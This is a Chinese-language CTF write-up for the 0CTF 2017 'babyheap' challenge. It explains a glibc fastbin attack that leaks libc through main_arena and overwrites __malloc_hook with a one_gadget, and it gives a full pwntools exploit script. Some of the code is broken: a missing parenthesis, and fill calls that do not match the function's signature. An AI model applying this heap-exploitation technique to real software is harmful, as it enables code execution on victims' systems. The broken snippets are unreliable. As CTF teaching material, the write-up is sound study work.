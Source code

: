 题目四个功能 alloc fill free dump

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

    考察点：fastbin attack

    漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

    求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

    两种方法

  第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，
  然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	
    新建两个块，用chunk0覆盖掉chunk1的头

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/2.png)
	
    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)
    
  新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小
  这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。
  利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了


![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/3.png)
![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/4.png)



    求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

    (靶机偏移是0x3a5678   与我机差值0x9b00)

  第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址


    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

   free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/5.png)

    malloc_hook偏移为0x3a5610


 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/6.png)

   可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/7.png)


   shellcode依然由one_gadget取得

 ![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/8.png)


执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             


